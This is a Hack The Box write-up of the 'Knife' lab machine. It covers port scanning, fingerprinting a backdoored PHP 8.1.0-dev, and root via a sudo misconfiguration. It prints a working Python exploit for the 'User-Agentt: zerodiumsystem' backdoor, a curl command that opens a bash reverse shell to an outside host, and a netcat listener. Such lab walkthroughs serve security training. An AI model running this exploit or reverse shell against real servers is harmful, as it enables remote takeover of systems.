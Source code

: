 ```yaml
---
title: Knife
author: nf4ll
date: 2022-12-16 10:29:00 +0000
categories: [Hack The Box, Machines]
tags: [Apache, PHP, SUID, Outdated Software, Web]
math: true
mermaid: true
image:
  path: /assets/img/posts/Knife/knife.PNG
  width: 1200
  height: 600
---
```

# Write Up

About Knife machine:
- OS: Linux
- Difficulty: Easy
- Release date: 2021-May-22
- IP: 10.10.10.242

## Scan phase

Firstly, I run active scan to get the open ports in the machine. Syn Stealth Scan (-sS) is used for this scan. 

```bash
nmap -sS -p- --open -n -Pn --min-rate 5000 -oN host 10.10.10.242
Starting Nmap 7.92 ( https://nmap.org ) at 2022-12-16 11:37 CET
Nmap scan report for 10.10.10.242
Host is up (0.042s latency).
Not shown: 58887 closed tcp ports (reset), 6646 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 23.44 seconds
```

Now, I scan versions and run default NSE scripts to detect possible attacks or exclude other attacks, like brute force. The versions are obtained with -sV parameter and extra information is gained with -sC parameter.
The result of this scan is the next: Apache web is set up in the server(port 80) and SSH is activated in the 22 port. 

```bash
nmap -sCV -p22,80 -oN ports 10.10.10.242
Starting Nmap 7.92 ( https://nmap.org ) at 2022-12-16 12:06 CET
Nmap scan report for 10.10.10.242
Host is up (0.16s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)
|   256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)
|_  256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title:  Emergent Medical Idea
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.50 seconds
```

Later, I visualize web to get any vulnerabilities or any hint to exploit. But there are no links in the web page. At this point, I fuzz the web to obtain a hidden path.

![Desktop View](/assets/img/posts/Knife/web.PNG)

I can't find anything in the web, but I find more information by using the "whatweb" tool. The web is analized by this tool to obtain version of all technologies that are running. The PHP version could be vulnerable because it is a developer version.

```bash
whatweb 10.10.10.242

http://10.10.10.242 [200 OK] Apache[2.4.41], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux]
[Apache/2.4.41 (Ubuntu)], IP[10.10.10.242], PHP[8.1.0-dev], Script, Title[Emergent Medical Idea], X-Powered-By[PHP/8.1.0-dev]
```

## Explotation phase

When I find the version in seachsploit.

![Desktop View](/assets/img/posts/Knife/searchsploit.PNG)

I visualized the exploit to understand it and get the reverse shell. If I add the heading "User-Agentt", the commands can be run by remote mode. 

```python
#!/usr/bin/env python3
import os
import re
import requests

host = input("Enter the full host url:\n")
request = requests.Session()
response = request.get(host)

if str(response) == '<Response [200]>':
    print("\nInteractive shell is opened on", host, "\nCan't acces tty; job crontol turned off.")
    try:
        while 1:
            cmd = input("$ ")
            headers = {
            "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0",
            "User-Agentt": "zerodiumsystem('" + cmd + "');"
            }
            response = request.get(host, headers = headers, allow_redirects = False)
            current_page = response.text
            stdout = current_page.split('<!DOCTYPE html>',1)
            text = print(stdout[0])
    except KeyboardInterrupt:
        print("Exiting...")
        exit

else:
    print("\r")
    print(response)
    print("Host is not available, aborting...")
    exit
```

Curl is a command to run request to a web page. Now, reverse shell is needed, so I search [revshells]<https://www.revshells.com/> to get the reverse shell payload. After I run this command, a listen port is turned on with netcat.

Execute reverse shell
```bash
curl http://10.10.10.242/ -H "User-Agentt: zerodiumsystem(\"bash -c 'bash -i &>/dev/tcp/10.10.14.8/443 0>&1 '\");"
#-H is used to add a header in the request 
```

Turn on the port 443
```bash
sudo nc -nlvp 443
```

Once the access is gained, the flag is obtained.

![Desktop View](/assets/img/posts/Knife/user.PNG)


## Privilege escalation

Once i verify that i'm not in user groups, a vulnerability is searched to upgrade the privileges. A program thats no need password to execute as root is founded with the following command: `sudo -l` .

![Desktop View](/assets/img/posts/Knife/sudol.PNG)

The program is searched in GTFOBins to upgrade privileges and that is founded. The privilages can be upgraded running the following command:

![Desktop View](/assets/img/posts/Knife/upcommand.PNG)

Finally I get the root flag: 

![Desktop View](/assets/img/posts/Knife/root.PNG)
